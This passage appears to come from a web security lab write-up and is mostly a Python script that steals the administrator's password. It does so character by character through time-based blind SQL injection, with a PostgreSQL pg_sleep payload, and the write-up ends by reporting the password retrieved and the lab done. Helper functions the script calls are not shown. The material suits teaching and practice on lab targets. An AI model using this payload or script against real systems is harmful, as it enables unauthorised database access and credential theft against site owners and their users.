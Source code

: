 ```py
    if len(sys.argv) != 2:
        print("(+) usage: %s <target> " % sys.argv[0])
        print('(+) eg: %s 192.168.121.103' % sys.argv[0])
        sys.exit(-1)
    
    ip = sys.argv[1]

    out = "(+) Retrieving the password"
    print(out)

    for i in range(1, 25):
        if i != 0:
            injection_string = "QRvD0dG8SNkAeEr7'%%3bSELECT+CASE+WHEN+(username='administrator'+AND+ASCII(SUBSTRING(password,%d,1))=[CHAR])+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--" % (i)
            extracted_char = chr(inject_func(ip, injection_string))
            sys.stdout.write(extracted_char)
            sys.stdout.flush()
        else:
            break
    print("\n(+) done!")
if __name__ == "__main__":
    main()
```

Password has been retrived

![picture 48](/assets/images/e1486d43d8687666b33712a1f1eedcac5d4ea40f40fd38397b57bbb478cbc182.png)  

Lab done:

![picture 47](/assets/images/f7d2840be6c6cf0ba1594a12e8f8f85b4126f0f591f8cc84fad43a76f655059a.png) 
